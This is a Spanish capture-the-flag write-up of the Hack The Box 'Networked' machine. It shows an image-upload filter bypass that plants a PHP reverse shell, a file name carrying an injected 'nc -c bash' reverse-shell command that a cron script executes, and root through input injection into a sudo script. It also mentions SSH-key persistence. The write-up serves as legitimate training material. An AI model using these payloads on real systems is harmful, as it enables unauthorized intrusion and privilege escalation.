




# Resolución maquina Networked

**Autor:** PepeMaquina  
**Fecha:** 21 de octubre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Enumeración, crontab, scripts.

---
## Imagen de la Máquina

*Imagen: networked.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.10.146 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.10.10.146 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT      STATE SERVICE VERSION
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
~~~
### Enumeración dentro de la pagina web
Como no existe una redirección a un dominio, solamente queda inspeccionar la página web a detalle.
Para ello se procede a enumerar las carpetas o directorios que tiene la página web.
~~~bash
feroxbuster -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x php  
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.146
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       24w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        8l       22w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        8l       40w      229c http://10.10.10.146/
200      GET        8l       40w      229c http://10.10.10.146/index.php
301      GET        7l       20w      236c http://10.10.10.146/uploads => http://10.10.10.146/uploads/
200      GET       17l       98w     7046c http://10.10.10.146/uploads/127_0_0_3.png
200      GET       17l       98w     7046c http://10.10.10.146/uploads/127_0_0_2.png
200      GET       17l       98w     7046c http://10.10.10.146/uploads/127_0_0_4.png
200      GET       17l       98w     7046c http://10.10.10.146/uploads/127_0_0_1.png
200      GET       22l       88w     1302c http://10.10.10.146/photos.php
200      GET        5l       13w      169c http://10.10.10.146/upload.php
200      GET        0l        0w        0c http://10.10.10.146/lib.php
301      GET        7l       20w      235c http://10.10.10.146/backup => http://10.10.10.146/backup/
200      GET      201l      582w    10240c http://10.10.10.146/backup/backup.tar
~~~
Se puede ver cosas importantes pero lo primero que llama mi atención es un archivo que dice "backup/backup.tar", por lo que al dirigirse a ese enlace se descarga el archivo backup.tar.
Para ver el contenido del comprimido, se puede ser que hay archivos php de la página.
~~~bash
tar -xf backup.tar      
ls
backup.tar  index.php  lib.php  photos.php  upload.php
~~~
Al ver cada uno de los archivos, se puede ver que lo impotante se encuentra en "lib.php" donde sanitiza las imagenes que ingresan por el archivo "upload.php", se puede ver varios puntos importantes:
- Tiene una lista blanca de extensiones permitidas.
- Valida el contenido de los archivos (MIME type).
- Cambia el nombre del archivo a un nombre de ip.
~~~bash
cat lib.php             
<?php

function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}

function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename \n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}

function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}

function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}

function displayform() {
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post" enctype="multipart/form-data">
 <input type="file" name="myFile">
  
<input type="submit" name="submit" value="go!">
</form>
<?php
  exit();
}
?>
~~~
Con esta información parece que se tuviera que bypasear una imagen por un archivo php para poder ejecutar código y entrar al servidor.
Entonces con la enumeración de directorios existe uno donde permite subir imágenes.

Asi que subiendo una imagen de prueba y enviando la solicitud al servidor mediante burpsuite, se cambia la estructura y se pasa un archivo php añadiendo un GIF89a a la estructura para aparentar que es un gif y colocando doble extension.

De esta forma se puede ver que el archivo se sube, ahora solo queda saber donde y con que formato, para ello tambien ayudo la enumeracion de directorios encontrando uno donde se ven todas las imágenes del servidor.

Con ello mismo, se procede a entrar al enlace pero llamando a la variable que controla el cmd para ver si este muestra algo, pero como soy un flojo, preferi colocar directamente una reverse shell y establecer una conexión con el servidor.

Estableciendo un escucha se puede ver que se establece una conexión con un usuario de servicio apache
~~~bash
sudo nc -nlvp 4433                                                            
[sudo] password for kali: 
listening on [any] 4433 ...
id
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.146] 43918
bash: no job control in this shell
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
~~~

### Pivoting al usuario guly
Realizando una enumeración basica en busca de credenciales, no se pudo encontrar nada importante, por lo que entrando al directorio de "/home" existe el usuario guly, viendo los archivos del usuario se puede ver algo interesante.
~~~bash
bash-4.2$ cd /home/guly/
bash-4.2$ ls -la
total 28
drwxr-xr-x. 2 guly guly 4096 Sep  6  2022 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Oct 21 16:42 user.txt
~~~
Claramente no se puede leer el archivo user.txt, pero si tenemos permisos para ver una crontab que se encuentra en el mismo directorio.
~~~bash
bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
~~~
Se puede ver que la crontab se ejecuta cada 3 minutos y ejecuta el archivo "check_attack.php", al momento de revisar su codigo.
~~~bash
bash-4.2$ cat check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
~~~
Entendiendo el código, se puede ver que es una especie de controlador de archivos, donde redirecciona todo a la ruta "/var/www/html/uploads", dentro de ese directorio revisa todos los archivos, el formato que deja pasar es el de una ip junto con su extensión (ej: 10_10_10_10.jpg) pero en caso de no tener ese formato entonces pasa ese archivo como una variable "$value", lo borra y envia un mensaje de alerta por mail.
De este codigo resalta una linea que es:
~~~bash
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
~~~
Esto no se encuentra sanitizado, por lo que modificando el valor de "path" o "value" se podria realizar una inyeccion de comandos, pero como "path" es algo definido dentro del codigo y value viene a ser el archivo en formato incorrecto, es facil entender que se debe hacer.
Primero se creara un archivo indicando una reverse shell para que cuando se ejecute el crontab se obtenga conexion con el usuario guly.
~~~bash
bash-4.2$ touch ';nc -c bash 10.10.14.17 4212'
bash-4.2$ ls
10_10_14_17.jpg      127_0_0_1.png  127_0_0_3.png  ;nc -c bash 10.10.14.17 4212
10_10_14_17.php.png  127_0_0_2.png  127_0_0_4.png  index.html
~~~
Generando un escucha desde la maquina atacante.
~~~bash
sudo nc -nlvp 4212                                                           
[sudo] password for kali: 
kali
Sorry, try again.
[sudo] password for kali: 
listening on [any] 4212 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.146] 51140
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
~~~
Con esto se obtuvo exitosamente una sesion con el usuario guly.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al usuario guly, ya es facil leer la user flag
~~~
[guly@networked ~]$ ls
check_attack.php  crontab.guly  user.txt
[guly@networked ~]$ cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Para la escalada de privilegios, simplemente se realiza la enumeración básica de permisos con sudo, con esto se pudo ver que se puede ejecutar un comando con un binario que podria ser bueno para explotar.
~~~
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
~~~
Al momento de revisar el script, honestamente no entendi nada.
~~~bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
~~~
Al principio pense que podria tratarse de un path injection pero fue una perdida de tiempo y no fuinciono.
Entonces solo queda probar como funciona el script, este pide que agreguemos 4 parametros, agregando todos estos datos pense que se podria tratar de una bof, pero por casualidad agregue dos valores en cada parametro y salio un error como si fuera parte de la consola.
Por ello se podria esperar otro comand injection por lo mal sanitizado que esta, validando esta infmroación.
~~~bash
[guly@networked tmp]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
testa bash
interface BROWSER_ONLY:
bash
interface BOOTPROTO:
bash
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
~~~
Se obtuvo acceso a una root sesion

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ahora que ya se tiene acceso a root, solo es cosa de leer la root flag, o si fuera un caso real, leer el id_rsa o mantener persistencia de alguna otra forma, como crear una llave ssh publica o como se desee.
~~~bash
[root@networked network-scripts]
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido

